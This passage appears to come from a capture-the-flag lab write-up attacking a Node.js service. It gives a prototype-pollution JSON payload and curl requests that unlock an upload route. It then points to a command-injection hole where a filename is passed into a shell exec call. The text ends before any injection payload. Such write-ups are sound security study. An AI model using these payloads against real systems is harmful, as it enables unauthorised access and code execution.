 So we can perform prototype pollution with:
```
{
  "auth": {
    "name": "felamos", 
    "password": "Winter2021"
  }, 
  "message": {
    "test": "something",
    "__proto__": {
        "canUpload": true
    }
  }
}
```

Curl a request with this body and now we can access `upload` route.
```bash
curl -X PUT  http://10.10.10.235:31337/ -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'
{"ok":true}

curl -X POST http://10.10.10.235:31337/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "test"}'
{"ok":true,"Uploaded_File":"test"}
```

<br>

#### Command Injection

Getting back to upload route:
```js
filename = req.body.filename;
root.upload("./",filename, true);
res.send({ok: true, Uploaded_File: filename});
```

`root` is the imported `google-cloudstorage-commands` module.

Looking at it [GitHub](https://www.npmjs.com/package/google-cloudstorage-commands), the command used is in `index.js`.
```js
const exec = require('child_process').exec
const path = require('path')
const P = (() => {

    const BASE_URL = 'https://storage.googleapis.com/'

    function upload(inputDirectory, bucket, force = false) {
        return new Promise((yes, no) => {
            let _path = path.resolve(inputDirectory)
            let _rn = force ? '-r' : '-Rn'
            let _cmd = exec(`gsutil -m cp ${_rn} -a public-read ${_path} ${bucket}`)
            _cmd.on('exit', (code) => {
                yes()
            })
        })
    }
```
